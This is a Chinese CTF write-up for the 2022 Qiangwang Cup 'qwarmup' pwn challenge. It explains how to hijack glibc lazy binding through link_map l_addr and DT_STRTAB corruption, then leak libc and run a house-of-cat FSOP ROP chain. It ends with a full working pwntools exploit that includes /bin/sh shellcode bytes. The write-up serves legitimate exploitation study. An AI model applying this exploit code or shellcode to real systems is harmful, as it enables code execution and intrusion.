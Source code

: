 ```yaml
---
title: 从qwarmup中学习到关于lazybind和linkmap的利用技巧
date: 2022-08-12 6:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=41/
pin: false
---
```


## 适用场景

适用于Partial Relro时，没有有效的泄露函数，有任意libc地址写且其后会执行未执行过的函数

## 使用方法

主要技巧

1.让绑定错位失效，去修改link_map->l_addr来使得，解析的真实函数地址无法写在got表上(但是函数还是可以正常执行)

2.劫持link_map->l_info[DT_STRTAB]，劫持之前先伪造好strtab(比如在_r_debug上)，原本指向DT_STRTAB的d_val，改其指向DT_DEBUG的d_val

3.执行完记得恢复，让其正常执行原函数功能

## 例题分析:qwarmup

来自2022年强网杯线上赛

![image-20220812170420267](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812170420267.png)

![image-20220812170535426](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812170535426.png)

2.35的版本，题目开了沙箱

![image-20220812170503979](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812170503979.png)

先看下题目情况，题目给了一个4字节的size用于malloc，这里是可以申请到libc段上方

然后是dowhile循环，会取size的高2字节保留，低位2字节赋0，所得的值作为校验，如果不为0就跳出循环。这里如果我们申请的是libc段上方，size就是0x10000往上，就会导致计算所得值不为0，从而跳出循环

而在循环内部，如果我们申请的是libc段上方，那么就可以对libc端任意地址写



题目采用**延迟绑定**的方式执行函数，没有可用于泄露地址的函数

所以考虑劫持stdout泄露地址，但缺少printf族输出函数，可以通过执行`_IO_flush_all`来触发

如果我们改掉该程序本身这个linkmap结构体的link_map->l_addr，就会导致解析完的真实write地址写入的位置发生改变，我们算下偏移，让其写入到0x4088的位置，这样一来，size的高位就为0了

![image-20220812210104272](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812210104272.png)

由于write的真实地址没有被写进got表，因此每次调用write都会进行一次查找，主要是执行`dl_runtime_resolve`，然后执行`_dl_fixup`函数，其中会去`call _dl_lookup_symnol_x`来获取函数的真实地址

![image-20220812211247119](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812211247119.png)

第一个参数就是要查找函数的函数名，即`sym->st_name`，其来获取于strtab，strtab则是来源于libc上的全局结构体link_map，link_map->l_info[DT_STRTAB]



这里讲一下linkmap结构

`l_addr`：表示 libary 的基地址

`l_name`：表示 libary 的名字

`l_next`：链接着该程序所有用到的 libary，在GOT[1] 中保存的地址是第一层 link_map 中所表示的 libary，可以用 l_next 结构寻找下一层表示的 libary，以此来遍历程序中所用到的 libary，并利用结构体的字段找到该层 libary 的名字、基地址、以及所有的 section 等信息。

`l_info[x]`：指向该 libary 下的 .dynamic。`l_info[1]` 指向 d_tag = 1 时所表示的 section(这里的Elf64_Dyn结构体) ，所以可以改变 x 的值找到每个相关 section 的地址。在链接过程中 binary 中的 section 地址，以及 libary 中的地址都是通过此方法确定的。

下图是`_rtld_global`中第一个linkmap节点(程序本身)

![image-20220812211717640](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812211717640.png)

.dynamic节如图所示，是由Elf64_Dyn结构体组成的

![image-20220812212950032](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812212950032.png)

比如像这样一段

d_tag == DT_STRTAB，d_val == 5 ，d_ptr == 0x560

DT_STRTAB大多都是宏定义，据我观察和dl_val是同样的值

```
Elf64_Dyn <5, 560h>                     ; DT_STRTAB
```

gdb中可以发现其正是指向Elf64_Dyn结构体

![image-20220812220457216](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812220457216.png)



再说回这个`_dl_lookup_symbol_x`，第一个参数st_name主要就是通过strtab获取的

如果我们修改掉link_map->l_info[DT_STRTAB]的值为另一个可控的Elf64_Dyn结构体的地址，相当于劫持strtab，就可以执行任意函数

```c
_dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,version, ELF_RTYPE_CLASS_PLT, flags, NULL);
```

比如说我们控制link_map->l_info[DT_STRTAB]到DT_DEBUG，这样，我们在write相同偏移处写入IO_flush_all，就能利用lazybinding实现任意函数执行，前提是任意libc地址写，且其后会执行未执行过的函数

![image-20220812211153075](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812211153075.png)

利用这一点我们可以执行_IO_flush_all函数实现FSOP触发stdout的泄露地址

关于IO_flush_all这个函数呢，主要是调用`_IO_flush_all_lockp`函数，会把IO结构体从stderr开始依次校验(if判断)

拿到libc地址以后，后续就可以通过劫持IO_stderr实现FSOP触发的IO利用，方法很多了，house of cat/house of emma/house of pig等

这里提供一下打本地的exp，远程有一定偏移上的区别

```python
# _*_ coding:utf-8 _*_
from pwn import *
# context.log_level = 'debug'

p = process("./qwarmup")
elf = ELF("./qwarmup")
libc = elf.libc

def dbg(con=''):
    gdb.attach(p,con)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def write(offset,content):
	for i in range(len(content)):
		p.send(p64(offset+i))
		p.send(content[i])
		p.recvuntil("Success!")

p.send(p32(0xf0000))

write(0x3592d0,"\x70")# 控制覆盖size，同时不让真实地址写入got表

write(0x30e770,p32(0xfbad1800))# IO_stdout
write(0x30e770+0x20+0x8,"\xff")

write(0x359108+0x22,"_IO_flush_all")# 0x22 is offset of write of strtab
p.send(p64(0x359338))
p.send("\xd0")

libc_base=uu64()-0x21ba70
lg('libc_base')

setcontext=libc_base+libc.sym["setcontext"]+61
Read = libc_base+libc.sym["read"]
Write = libc_base+libc.sym['write']
pop_rdi = libc_base+0x2a3e5
pop_rsi = libc_base+0x2be51
pop_rdx = libc_base+0x90529
pop_rcx = libc_base+0x8c6bb
syscall = libc_base+0x91396
pop_rax = libc_base+0x45eb0
heap = libc_base-0xf3ff0
IO_wfile_jumps = libc_base + 0x2160c0
lg('heap')
write(0x359338,"\x90")# recover

#----------------------house of cat by FSOP-----------------------

stderr = libc_base+0x21a6a0# IO_stderr_addr
write(0x30e690+0x28,p64(0xffffffffffffffff))
write(0x30e690+0x40,p64(1))
write(0x30e690+0x50,p64(heap)+p64(setcontext))# rdx
write(0x30e690+0xa0,p64(stderr+0x30))
write(0x30e690+0xd8,p64(IO_wfile_jumps+0x30))
write(0x30e690+0xd8+0x38,p64(stderr+0x40))


rop = p64(heap)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)
rop += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(heap+0x400)+p64(pop_rdx)+p64(0x30)*2+p64(Read)
rop += p64(pop_rdi)+p64(1)+p64(Write)

payload = "flag".ljust(0xa0,'\x00')+p64(heap+0x100)+p64(pop_rdi)
payload = payload.ljust(0x100,'\x00')
payload += rop

write(0,payload)
p.send(p64(0x359338))# IO_flush
p.send("\xd0")

p.interactive()
```



参考文章：

[深入窥探动态链接 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/134105591)

[高版本glibc堆的几种利用手法 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/535469996)

[2022强网杯 Pwn 部分Writeup-Pwn影二つ的博客 (kagehutatsu.com)](https://kagehutatsu.com/?p=723)

[从o开始的pwn学习之超详细ret2dl_resolve_金语的博客-CSDN博客](https://blog.csdn.net/jzc020121/article/details/116312592)

[高级ROP-ret2dlresolve(1) · 语雀 (yuque.com)](https://www.yuque.com/cyberangel/rg9gdm/oyne1i#gGyAO)